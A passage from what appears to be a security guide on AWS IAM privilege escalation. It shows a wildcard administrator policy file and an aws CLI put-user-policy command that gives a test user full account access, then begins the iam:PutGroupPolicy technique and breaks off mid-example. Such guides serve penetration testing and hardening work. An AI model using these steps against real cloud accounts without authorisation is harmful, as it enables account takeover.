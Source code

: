 The attacker can now attach a new inline policy to their user account. The inline policy that will be attached is as follows:

`adminpolicy.json`

```json
{
    "Version": "2012-10-17",
    "Statement": [
    {
        "Effect": "Allow",
        "Action": "*",
        "Resource": "*"
    }]
}
```

The attacker can attach the policy by issuing the following command:

```bash
➜ aws iam put-user-policy --user-name privesc_test --policy-name new_inline_policy --policy-document file://adminpolicy.json --profile privesc
```

The attacker now has administrator access to the AWS account.

## 11 - iam:PutGroupPolicy

### Description
Users with the iam:PutGroupPolicy can create or update an inline policy for a group, potentially allowing them to add permissions that they don't currently have to their account.

### Requirements
The user needs to have the iam:PutGroupPolicy permission for a group that they are part of.

### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:PutGroupPolicy on all groups:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:PutGroupPolicy",
      "Resource": "arn:aws:iam::*:group/*"
    }
  ]
}
```

The attacker can now attach a new inline policy to their group. The inline policy that will be attached is as follows:
